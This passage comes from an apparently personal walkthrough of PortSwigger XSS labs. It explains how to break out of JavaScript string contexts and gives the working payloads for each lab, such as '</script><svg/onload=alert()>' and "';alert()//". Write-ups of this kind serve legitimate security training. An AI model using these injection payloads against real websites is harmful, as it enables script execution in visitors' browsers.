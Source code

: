 However, we are still able to inject tags! This allows us to break out of the JavaScript context entirely and inject whatever subsequent content we want.

**Solution**

```
</script><svg/onload=alert()>
```

### Lab 21 - Reflected XSS into a JavaScript string with angle brackets HTML encoded

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

This lab is similar to the previous one, but this around angle brackets will be encoded. We just have to take the opposite approach and leverage the fact that we can break out of `searchTerms` by inject single quotes.

```
<script>
	var searchTerms = '**Payload**';
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Since our input will directly be injected in a JavaScript string context, we do not even need tags to execute JS code.

**Solution**

```
?search=';alert()//
```

### Lab 22 - Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

This time around we are unable any of the following characters `< > ' "`. Once again, the developers mistake was to forget also escaping the backslash character.

**Solution**

```
?search=\';alert();//
```

### Lab 23 - Reflected XSS in a JavaScript URL with some characters blocked

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
